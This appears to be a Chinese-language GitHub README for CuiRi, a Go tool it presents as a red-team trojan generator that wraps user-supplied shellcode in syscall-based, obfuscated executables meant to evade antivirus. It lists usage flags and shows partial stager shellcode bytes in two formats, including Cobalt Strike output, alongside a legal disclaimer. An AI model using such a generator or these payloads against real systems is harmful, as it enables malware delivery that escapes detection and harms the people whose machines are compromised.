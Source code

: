 # 摧日：CuiRi 红队专用免杀木马生成工具
![Author](https://img.shields.io/badge/作者-Dubh3-green)  ![language](https://img.shields.io/badge/开发语言-Golang-green) ![version](https://img.shields.io/badge/版本-1.0-brightgreen)

### 0x01 简介：

```
   ____   __    __    _____      ______      _____  
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _) 
 / /     ( (    ) )    | |       ) (__) )     | |   
( (       ) )  ( (     | |      (    __/      | |   
( (      ( (    ) )    | |       ) \ \  _     | |   
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__ 
  \____)  \______/   /_____(     )_) \__/   /_____( 

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马
```

CuiRi 是一款红队专用免杀木马生成器，该工具可以通过红队人员提供的一段 shellcode 快速生成一个绕过所有杀软的可执行木马。

**特点**

* 1.基于 Syscall 进行免杀，且随机混淆，可过几乎所有杀软
* 2.内置 go-strip 对 Go 生成的木马进行编译信息抹除与程序信息混淆
* 3.工具本体只有 1 个 exe，搭配 Go 环境即可直接使用

感谢 go-strip 作者 [@boy-hack](https://github.com/boy-hack "@boy-hack")

### 0x02 使用：

从 [release](https://github.com/NyDubh3/CuiRi/releases/tag/v1.0 "release") 中下载二进制文件，并且在系统上安装 Go 语言环境，然后将 shellcode 保存到1个txt文件中，即可使用本工具生成免杀马。

```bash
   ____   __    __    _____      ______      _____
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _)
 / /     ( (    ) )    | |       ) (__) )     | |
( (       ) )  ( (     | |      (    __/      | |
( (      ( (    ) )    | |       ) \ \  _     | |
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__
  \____)  \______/   /_____(     )_) \__/   /_____(

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马

警告：
1.本工具仅用于企业内部测试，请勿用于任何非法犯罪活动，否则后果自负
2.本工具需要Go语言环境，且使用时需要关闭杀软
https://github.com/NyDubh3/CuiRi   Author:Dubh3

[INFO] Current Version: 1.0
Usage of CuiRi.exe:
  -f string
        通过shellcode生成免杀马
  -manual
        查看shellcode生成方法
```

CuiRi 支持的 shellcode 格式分为以下两种：

**1.C语言字符串格式 shellcode：**

```bash
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x51\x65\x48\x8b\x52\x60\x56\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
```

**2.纯十六进制数值格式 shellcode:**

注意：如果是从 Cobalt Strike 中生成的 bin 文件，请单独将 bin 里的十六进制复制保存到一个 txt 文件中。

```bash
fce8 8900 0000 6089 e531 d264 8b52 308b
520c 8b52 148b 7228 0fb7 4a26 31ff 31c0
ac3c 617c 022c 20c1 cf0d 01c7 e2f0 5257
8b52 108b 423c 01d0 8b40 7885 c074 4a01
d050 8b48 188b 5820 01d3 e33c 498b 348b
01d6 31ff 31c0 acc1 cf0d 01c7 38e0 75f4
037d f83b 7d24 75e2 588b 5824 01d3 668b
```

### 0x03 演示：

**(1) 生成 shellcode**

![-w1325](images/1.gen_shellcode.jpg)

**(2) 生成免杀马**

![-w1325](images/2.gen_trojan.jpg)

**(3) 免杀效果**

![-w1325](images/3.power_1.jpg)

![-w1325](images/3.power_2.jpg)
